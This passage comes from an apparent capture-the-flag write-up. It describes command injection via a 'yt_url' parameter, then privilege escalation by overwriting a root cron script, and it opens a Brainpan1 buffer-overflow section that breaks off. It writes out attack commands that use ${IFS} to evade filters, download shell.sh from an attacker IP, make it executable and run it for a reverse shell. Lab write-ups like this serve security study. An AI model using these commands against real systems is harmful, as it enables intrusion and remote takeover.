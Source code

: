 * Thus, by enclosing a command in our backticks and using that as the value of 'yt_url', we can execute commands remotely.

* Using the command 'ls' (enclosed in backticks) as an input for 'yt_url' and forwarding the POST request, we get the secret folder 'admin'.

* Now, commands with spaces do not work, so we can use the ```${IFS}``` separator instead of spaces to make the command work.

* Now, the command does not get executed if it contains symbols such as '+' or '-', so we can try to host a reverse-shell script, download it on victim machine, and get a reverse-shell on our listener.

* We will be executing the following commands using yt_url RCE (commands enclosed in backticks):

  ```shell
  which${IFS}wget

  wget${IFS}http://10.14.31.212:8000/shell.sh

  chmod${IFS}777${IFS}shell.sh

  bash${IFS}shell.sh
  ```

* This gives us a reverse-shell on our listener as ```www-data```; we can get user flag from the /admin folder.

* Now, we can check for enumeration using linpeas.sh; it does not give us a lot of clues.

* Now, checking the processes running (captured by linpeas), we can see that it is running 'cron', but we do not have any cronjobs listed.

* To monitor the processes running as root without root permissions, we can use the ```pspy``` tool, by transferring it from attacker to victim machine.

* We can run the ```pspy``` tool with the help flag and check what we can do to inspect processes and cronjobs.

* Running the tool, we get a list of processes running, and we can see that the following command is executed as a cronjob every minute:

  ```/bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh```

* So, we can attempt to overwrite ```clean.sh``` and escalate our privileges; but we have to get our reverse shell back first.

* Using Ctrl+C, we stop the process, and run the Burp Suite RCE again to get our reverse-shell back on listener.

* Now, we can edit ```clean.sh``` and add our reverse-shell one-liner.

* On our new listener, we get reverse-shell within a minute as root, and we can read the root flag.

## Brainpan1

* We have open ports 9999 and 10000; the former is running 'abyss' service and the latter is running SimpleHTTPServer

* We can interact with the service on port 9999 using ```netcat```, we can enter a password, and if incorrect the program 'brainpan' stops.

* Checking the webpage on port 10000, we have an infographic.

* Using ```feroxbuster```, we can scan for hidden directories; we get a /bin directory, which contains brainpan.exe

* Assuming this .exe is the same as the one used on port 9999, we can download this and transfer to our local Windows machine and attempt to reverse-engineer this.

  ```